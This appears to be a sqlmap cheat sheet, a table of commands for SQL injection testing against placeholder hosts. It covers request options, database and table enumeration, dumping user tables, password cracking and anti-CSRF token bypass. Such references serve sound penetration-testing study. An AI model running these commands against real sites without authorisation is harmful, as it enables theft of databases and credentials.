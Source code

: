 | Command                                                                                                                                              | Description                                                                                                 |
| ---------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------- |
| `sql map -h`                                                                                                                                         | View the basic help menus                                                                                   |
| `sqlmap -hh`                                                                                                                                         | View the advanced help menu                                                                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`                                                                                           | Run SQLMap without asking for user input                                                                    |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`                                                                                          | SQLMap with POST request                                                                                    |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`                                                                                         | POST request specifying an injection point with an asterisk                                                 |
| `sqlmap -r req.txt`                                                                                                                                  | Passing a HTTP request file to SQLMap                                                                       |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`                                                                                   | Specifying a cookie header                                                                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                                                                                                | Specifying a PUT request                                                                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`                                                                        | Store traffic to an output file                                                                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`                                                                                       | Specify verbosity level                                                                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`                                                                                | Specify a prefix or suffix                                                                                  |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                                                                                                     | Specify the level and risk                                                                                  |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`                                                             | Basic DB enumeration                                                                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`                                                                                        | Tables enumeration                                                                                          |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`                                                                 | Table/row enumeration                                                                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`                                                        | Conditional enumeration                                                                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                                                                                  | Database schema enumeration                                                                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                                                                          | Searching for data                                                                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                                                                       | Password enumeration and cracking                                                                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"`                            | Anti-CSRF token bypass                                                                                      |